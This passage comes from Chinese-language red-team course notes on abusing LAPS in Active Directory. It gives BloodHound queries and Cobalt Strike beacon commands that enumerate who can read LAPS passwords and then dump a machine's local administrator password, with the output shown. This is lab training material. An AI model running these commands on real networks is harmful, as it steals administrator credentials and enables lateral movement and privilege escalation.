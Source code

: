 BloodHound 里等价查询应用了 LAPS 的计算机的方法
```
MATCH (c:Computer {haslaps: true}) RETURN c
```

BloodHound 里等价查询所有通过LAPS对域机器有特殊权限的组
```
MATCH p=(g:Group)-[:ReadLAPSPassword]->(c:Computer) RETURN p
```

![alt BloodHound](https://rto-assets.s3.eu-west-2.amazonaws.com/laps/bloodhound-readlapspassword.png?width=1920)

如果我们横向的计算机安装了LAPS PowerShell，则可以使用以下方法
```
beacon> powershell Get-Command *AdmPwd*

CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Cmdlet          Find-AdmPwdExtendedRights                          5.0.0.0    AdmPwd.PS
Cmdlet          Get-AdmPwdPassword                                 5.0.0.0    AdmPwd.PS
Cmdlet          Reset-AdmPwdPassword                               5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdAuditing                                 5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdComputerSelfPermission                   5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdReadPasswordPermission                   5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdResetPasswordPermission                  5.0.0.0    AdmPwd.PS
Cmdlet          Update-AdmPwdADSchema                              5.0.0.0    AdmPwd.PS
```

```Find-AdmPwdExtendedRights```返回允许读取 LAPS password 的所有OU
```
beacon> run hostname
wkstn-2

beacon> getuid
[*] You are DEV\nlamb

beacon> powershell Find-AdmPwdExtendedRights -Identity Workstations | fl

ObjectDN             : OU=Workstations,DC=dev,DC=cyberbotic,DC=io
ExtendedRightHolders : {NT AUTHORITY\SYSTEM, DEV\Domain Admins, DEV\1st Line Support}
```

上面结果表明，可以读取LAPS 密码属性的三个OU是：NT AUTHORITY\SYSTEM，DEV\Domain Admins，DEV\1st Line Support


由于域管理员可以读取所有 LAPS 密码属性,Get-AdmPwdPassword读取指定计算机的密码
```
beacon> powershell Get-AdmPwdPassword -ComputerName wkstn-2 | fl

ComputerName        : WKSTN-2
DistinguishedName   : CN=WKSTN-2,OU=Workstations,DC=dev,DC=cyberbotic,DC=io
Password            : WRSZV43u16qkc1
ExpirationTimestamp : 5/20/2021 12:57:36 PM
```

如果已经是DA，大概不太需要通过这种方式读取到密码，但是从之前的结果可知，```DEV\1st Line Support```这个组的成员也可以读取LAPS 密码属性，因此我们可以通过横向到这个组成员，然后读取需要的密码进行横向或者提权

注意，当前账号```DEV\bfarmer```是没有权限读取LAPS密码的
```
beacon> run hostname
wkstn-1
